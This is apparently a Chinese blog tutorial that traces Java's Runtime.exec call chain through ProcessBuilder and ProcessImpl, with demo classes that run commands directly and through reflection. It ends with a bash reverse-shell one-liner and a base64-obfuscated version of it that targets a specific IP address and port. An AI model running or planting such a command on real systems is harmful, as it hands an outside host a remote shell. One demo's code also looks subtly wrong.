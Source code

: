 # 前言

在java中我们经常用到`Runtime.getRuntime.exec(command)`去执行命令,但是代码逻辑到底是什么,到底是怎么实现的,今天就想来总结一下

# Runtime命令执行分析

java的Runtime类下有6个重载了的exec方法

![image-20211215085935735](images/1.png)

```
public Process exec(String command) throws IOException
public Process exec(String command, String[] envp) throws IOException
public Process exec(String command, String[] envp, File dir) throws IOException
public Process exec(String cmdarray[]) throws IOException
public Process exec(String[] cmdarray, String[] envp) throws IOException
public Process exec(String[] cmdarray, String[] envp, File dir) throws IOException
```

## 测试代码

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.Runtime;

public class RuntimeTest {
    public static void main(String[] args) throws IOException {
        //定义命令值
        String command = "whoami";
        //调用Runtime类
        Process p = Runtime.getRuntime().exec(command);//如果不是需要回显的命令,到这即可执行
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());//后面的代码主要是为了看回显
    }
}
```

## 实现过程

下个断点调试一下

跟进getRuntime()

![image-20211215085133466](images/2.png)

一个静态方法可以直接调用,返回了一个静态值即Runtime的实例化对象

每次调用getRuntime()方法都会实例化一个Runtime对象

再跟进exec看看

![image-20211215085433894](images/3.png)

非静态方法,需要实例化对象才能调用,刚好,getRuntime方法返回了应该实例化对象调用这里的exec方法

返回值调用了另外的exec方法,继续跟进

![image-20211215090215936](images/4.png)

来到Runtime的另外一个exec方法,继续跟进到return还要返回另外的exec方法,再次跟进

![image-20211215090604084](images/5.png)

这里new了应该ProccessBuilder对象并且调用了start方法,继续跟进start

在start方法中一路跟进,会调用ProccessImpl类的静态方法start

![image-20211215090847631](images/6.png)

在这个start的137行又new了应该ProccessImpl对象

![image-20211215091341488](images/7.png)

跟进ProccessImpl的构造函数

一路跟进到

![image-20211215091722660](images/8.png)

在这个地方执行了命令

**调用流程**

1. public Process exec(String command)
2. public Process exec(String command, String[] envp, File dir)
3. public Process exec(String[] cmdarray, String[] envp, File dir)
4. ProcessBuilder.start()
5. ProcessImpl.start()
6. new ProcessImpl
7. creat()

# 反射调用Runtime执行命令

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class ReflectionExec {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        Class cls = Class.forName("java.lang.Runtime"); //Runtime加载进内存
//        Constructor declaredConstructor = cls.getDeclaredConstructor(); //获取构造方法
//        declaredConstructor.setAccessible(true);  //暴力反射
//        Object o = declaredConstructor.newInstance(); //创建Runtime类
//        Method exec = cls.getMethod("exec", String.class); //获取exec方法，设置需要参数string类型参数
//        Process process = (Process) exec.invoke(o,command);   //执行exec方法，并传入calc.exe参数
        Object runtime = cls.getMethod("getRuntime").invoke(null);
        Process process = (Process) cls.getMethod("exec", String.class).invoke(runtime,command);
        System.out.println(process);
        InputStream is = process.getInputStream();    //获取输出的数据
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

可以用上面的代码反射调用Runtime来执行命令

# ProcessBuilder类

前面Runtime类执行命令的时候调用了ProcessBuilder类的start函数,那是不是就可以直接调用start来执行命令了

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class ProcessBuilderTest {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        ProcessBuilder pro = new ProcessBuilder(command);
        Process p = pro.start();
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

![image-20211215225238072](images/9.png)

# ProcessImpl类

同样的，Runtime类调用了执行命令的过程中调用了ProcessImpl类的start方法,那直接调用这个类的start方法也可以执行命令了

不过这个类并不是共有的

![image-20211215225537735](images/10.png)

所以我们只能通过反射去获取

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.*;
import java.util.Map;

public class ProcessImplTest {
    public static void main(String[] args) throws Exception{
        String[] command = {"calc"};
        Class Pro = Class.forName("java.lang.ProcessImpl");
        Method method = Pro.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        Process p = (Process) method.invoke(null, new String[]{command}, null, ".", null, true);//静态方法,invoke不需要传入对象
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}

```

![image-20211215230900868](images/11.png)





使用Bash来反弹shell时由于`Runtime.getRuntime().exec()`中不能使用管道符等Bash需要的方法，故需要进行一次base64编码：`bash -i >& /dev/tcp/vps/2333 0>&1`：

最后的命令应该是

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}
```

